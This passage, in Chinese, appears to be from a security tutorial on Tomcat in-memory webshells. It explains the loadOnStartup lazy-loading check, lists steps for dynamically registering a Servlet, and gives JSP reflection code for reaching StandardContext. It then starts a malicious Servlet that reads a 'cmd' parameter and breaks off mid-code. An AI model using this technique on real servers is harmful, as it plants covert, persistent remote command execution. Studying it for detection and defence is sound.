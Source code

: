 注意这里对于`Wrapper`对象中`loadOnStartup`属性的值进行判断，只有大于`0`的才会被放入`list`进行后续的`wrapper.load()`加载调用。
这里对应的实际上就是`Tomcat Servlet`的懒加载机制，可以通过`loadOnStartup`属性值来设置每个`Servlet`的启动顺序。默认值为`-1`，此时只有当`Servlet`被调用时才加载到内存中。
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712727792699-305c2a5c-653b-4191-9dbd-66a999e2459f.png)
至此`Servlet`才被加载到内存中。

### 4.3.4、动态注册Servlet

通过上文的分析我们能够总结出创建`Servlet`的流程

1. 获取`StandardContext`对象
2. 编写恶意`Servlet`
3. 通过`StandardContext.createWrapper()`创建`StandardWrapper`对象
4. 设置`StandardWrapper`对象的`loadOnStartup`属性值
5. 设置`StandardWrapper`对象的`ServletName`属性值
6. 设置`StandardWrapper`对象的`ServletClass`属性值
7. 将`StandardWrapper`对象添加进`StandardContext`对象的`children`属性中
8. 通过`StandardContext.addServletMappingDecoded()`添加对应的路径映射

### 4.3.5、获取StandardContext对象

StandardContext对象获取方式多种多样

```java
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>
```

或

```java
<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
```

### 4.3.6、编写恶意的Servlet

```java
<%!
 
    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
```